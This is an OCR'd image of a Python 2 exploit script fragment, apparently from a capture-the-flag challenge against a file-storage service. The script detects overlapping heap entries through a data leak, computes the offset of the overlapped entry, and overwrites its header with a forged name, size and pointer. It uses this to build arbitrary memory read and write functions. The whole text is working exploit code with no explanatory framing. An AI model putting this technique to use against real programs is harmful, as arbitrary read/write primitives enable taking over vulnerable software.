 ```python
	put(fpath, pattern*4096)
	if (ls_leak(pattern) == 1):
		#we have an overlap
		print "%s entry's data overlaps with another entry!" % fpath

		#we know that in foobar_%i we have the overlap. let's find the offset.
		out = ls_get()
		start = out.find(pattern*5)
		out = out[start:]
		end = out.find("\n")
		out = out[:end]
		offset_from_data = 4096 - len(out)

		#ok - so the child.name is at this offset. the entry start then is at - 12
		entry_offset = offset_from_data - 12
		break
		
	if ((i % 50) == 0):
		print "[%d] ... " % i

print "We can start writing into %s and at data offset %d is the entry we overlapped." % (fpath, entry_offset)

entry_parent = "Q"*8
entry_type = p32(2)
name = "FFFF" + "\x00"*16
size = p64(16)
ptr = p64(0x40000000)
put(fpath, "X"*entry_offset + entry_parent + entry_type + name + size + ptr)
print "Now we should have the name FFFF, let's write to it and then read it out"


def arb_write(addr, value):

	global fpath, entry_offset

	if (entry_offset == -1):
		print "WM not initialized yet!"
		return

	entry_parent = "Q"*8
	entry_type = p32(2)
	name = "FFFF" + "\x00"*16
	size = p64(len(value))
	ptr = p64(addr)
	put(fpath, "X"*entry_offset + entry_parent + entry_type + name + size + ptr)
	put("FFFF", value)



def arb_read(addr, length):
	if (entry_offset == -1):
		print "WM not initialized yet!"
		return

	entry_parent = "Q"*8
	entry_type = p32(2)
	name = "FFFF" + "\x00"*16
	size = p64(length)
	ptr = p64(addr)
	put(fpath, "X"*entry_offset + entry_parent + entry_type + name + size + ptr)
	return get_leak("FFFF")

```